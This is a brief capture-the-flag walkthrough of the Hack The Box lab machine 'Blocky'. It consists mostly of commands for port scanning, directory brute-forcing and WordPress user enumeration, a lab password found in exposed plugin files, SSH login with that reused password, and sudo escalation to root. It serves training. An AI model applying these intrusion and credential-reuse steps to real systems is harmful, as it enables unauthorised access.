 # ****10.10.10.37 - Blocky****

```bash
rustscan -a 10.10.10.37
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ecf0b92e-d5d2-4163-919d-dad0e034c7a8)

```bash
gobuster dir -w directory-list-2.3-medium.txt -u http://blocky.htb/ -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7d95211b-fd91-4afb-b3f4-69fe89add56d)

http://blocky.htb/plugins/
![image](https://github.com/lufffe/Writeups/assets/90646635/001486da-ddd1-48e3-bf3d-2c94e69196b8)

![image](https://github.com/lufffe/Writeups/assets/90646635/3a442b7b-377a-4924-b35f-c13c93236e5d)

root / 8YsqfCTnvxAUeduzjNSXe22

```bash
wpscan --url http://blocky.htb --enumerate u
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f8385c53-1cf5-47c1-8818-6eb7ce9e3aa0)

```bash
ssh notch@10.10.10.37
```

notch / 8YsqfCTnvxAUeduzjNSXe22

```bash
cat user.txt
```

```bash
sudo -l 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bd9bef73-1f83-4b3f-b6de-0352ee6dd704)

```bash
sudo su
```
![image](https://github.com/lufffe/Writeups/assets/90646635/608859bc-1f70-4c69-8c52-533739c8b6e0)

cat /root/root.txt

